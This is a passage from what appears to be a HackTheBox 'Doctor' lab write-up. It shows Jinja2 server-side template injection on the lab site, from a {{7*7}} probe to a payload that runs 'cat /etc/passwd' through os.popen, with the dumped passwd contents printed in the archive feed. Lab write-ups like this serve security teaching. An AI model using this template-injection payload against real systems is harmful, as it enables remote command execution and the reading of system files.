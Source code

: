![diagram](assets/img/posts/doctor-htb/diagram.png)

P.S. This blog also uses a template engine ;-)

---

We can use a basic payload \{\{7\*7\}\} and we will see the number 49 in the archive source page. This happens because the template engine renders \{\{7\*7\}\} and this payload can make the template engine print the actual calculation of 7 x 7 which results in 49, hence the output 49 in the archive source page.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>49</title></item>
</channel>
```

After surfing a little I came across this great article on Jinja2 SSTI which helped me gain RCE on the box -- [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

It gives a nice little payload which can help us execute system commands: \{\{request.application.\_\_globals__.\_\_builtins__.\_\_import__('os').popen('cat /etc/passwd').read()\}\}

After posting this as the post title, we can see the following output in http://doctors.htb/archive

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```